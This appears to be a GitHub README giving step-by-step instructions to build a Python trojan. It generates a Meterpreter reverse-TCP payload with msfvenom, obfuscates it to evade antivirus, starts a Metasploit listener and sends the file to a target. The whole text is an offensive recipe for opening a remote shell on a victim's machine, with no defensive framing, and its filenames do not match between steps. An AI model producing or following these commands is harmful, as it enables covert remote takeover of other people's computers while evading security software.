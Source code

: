 # Create python trojan with Metasploit and bypass all antiviruses

1 : install python and metasploit or using kali linux

2 : Next install requreiments

3 : create payload and obfuscation it and send to target 

4 : build up listener with metasploit

# Requreiments 

pip install PyObfuscator

Optional : if you want you can change it to exe file after obfuscation it for doing this read it (https://github.com/CharonDefalt/Bad-usb)

# Create payload

msfvenom -p python/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o payload.py

After that lets obfuscation it with below command :

PyObfuscator payload_5050.py

# Build listener

use multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST YOURIP
set lport YOURPORT
run

# Final Part
now send this file ( payload_obfu.py ) to target


